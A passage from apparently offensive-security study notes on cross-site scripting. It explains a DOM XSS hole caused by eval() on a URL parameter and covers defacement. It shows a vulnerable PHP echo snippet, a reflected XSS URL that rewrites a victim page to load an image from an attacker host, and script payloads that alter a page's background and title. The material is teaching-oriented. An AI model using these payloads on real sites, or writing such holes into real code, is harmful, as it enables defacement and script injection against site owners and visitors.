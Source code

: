 This JavaScript code is responsible for calculating and dynamically displaying the result of the arithmetic operation via the DOM splits the URL and parses the value of the **statement** parameter to the JavaScript **eval()** function for evaluation/calculation.

The JavaScript **eval()** function is typically used by developers to evaluate JavaScript code, however, in this case, it has been improperly implemented to evaluate/perform the arithmetic operation specified by the user.

**NOTE: The **eval()** function should never be used to execute JavaScript code in the form of a string as it can be leveraged by attackers to perform arbitrary code execution.**

Given the improper implementation of the **eval()** function, we can inject our XSS payload as a value of the **statement** parameter and forces the **eval()** function to execute the JavaScript payload.


![example of DOM XSS](../img/dom2.png)

### 3. Defacements

We may categorize defacements into two types: Non-persistent (Virtuals) and Persistent. 

- *Non-persistent defacements* don't modify the content hosted on the target web application. They are basically abusing Reflected XSS.

```
# Code
<?php $name = @$_GET['name']; ?>
Welcome <?=$name?>

# URL
https://victim.site/XSS/reflected.php?name=%3Cscript%3Edocument.body.innerHTML=%22%3Cimg%20src=%27http://hackersite/pwned.png%27%3E%22%3C/script%3E
```

- *Persistent defacements* modify permanently the content hosted on the target web application. They are basically abusing Stored XSS.

[Tools for cloning a website](../cloning-a-site.md)

Three HTML elements are usually utilized to change the main look of a web page:

- Background Color `document.body.style.background`

```html
<script>document.body.style.background = "#141d2b"</script>
```


- Background `document.body.background`

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

- Page Title `document.title`

```html
<script>document.title = 'HackTheBox Academy'</script>
```
